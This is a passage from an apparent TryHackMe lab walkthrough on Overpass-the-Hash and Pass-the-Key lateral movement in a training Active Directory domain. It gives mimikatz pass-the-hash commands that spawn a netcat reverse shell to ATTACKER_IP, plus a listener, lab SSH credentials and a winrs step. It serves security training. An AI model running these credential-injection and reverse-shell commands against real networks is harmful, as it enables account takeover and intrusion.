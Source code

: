 ```shell-session
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**If we have the AES128 hash:**

```shell-session
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**If we have the AES256 hash:**

```shell-session
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

Notice that when using RC4, the key will be equal to the NTLM hash of a user. This means that if we could extract the NTLM hash, we can use it to request a TGT as long as RC4 is one of the enabled protocols. This particular variant is usually known as **Overpass-the-Hash (OPtH)**.

To receive the reverse shell, we should run a reverse listener on our AttackBox:


```shell-session
user@AttackBox$ nc -lvp 5556
```

Just as with PtH, any command run from this shell will use the credentials injected via mimikatz.

  

## Let's Get to Work!

To begin this exercise, you will need to connect to THMJMP2 using the following credentials via SSH:

User: ZA.TRYHACKME.COM\t2_felicia.dean

Password: iLov3THM!

`ssh za\\t2_felicia.dean@thmjmp2.za.tryhackme.com`

These credentials will grant you administrative access to THMJMP2, allowing you to use mimikatz to dump the authentication material needed to perform any of the techniques presented during this task.

Using your SSH session, use mimikatz to extract authentication material and perform Pass-the-Hash, Pass-the-Ticket or Pass-the-Key against domain user `t1_toby.beck`.

Once you have a command prompt with his credentials loaded, use `winrs` to connect to a command prompt on THMIIS. Since t1_toby.beck's credentials are already injected in your session as a result of any of the attacks, you can use winrs without specifying any credentials, and it will use the ones available to your current session:

```shell-session
winrs.exe -r:THMIIS.za.tryhackme.com cmd
```

You'll find a flag on t1_toby.beck's desktop on THMIIS. Both `mimikatz` and `psexec64` are available at `C:\tools` on THMJMP2.
